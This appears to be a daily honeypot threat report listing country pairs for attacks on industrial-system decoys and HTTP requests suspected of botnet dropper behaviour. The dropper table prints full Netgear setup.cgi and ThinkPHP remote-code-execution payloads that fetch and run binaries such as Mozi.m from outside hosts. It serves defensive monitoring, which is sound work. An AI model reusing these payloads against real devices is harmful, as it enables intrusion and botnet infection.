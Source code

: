```yaml
---
title: "Report: 2025-03-31 "
date: 2025-03-31
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-31
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| SC               | Singapore          |
| SG               | Singapore          |
| MY               | Australia          |
| GB               | Dubai              |
| US               | Dubai              |
| GB               | Georgia            |
| CN               | Georgia            |
| MY               |                    |
| CA               |                    |
| US               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr     | request                                                                                                                                                                                                                                   |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 27.43.204.223   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                 |
| 223.109.64.180  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.33.18.208:37747/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                              |
| 141.98.11.210   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20arm7 HTTP/1.1                             |
| 220.179.1.88    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1             |
| 1.170.222.168   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 175.182.207.63  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 117.135.239.172 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1             |
| 123.240.58.26   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1             |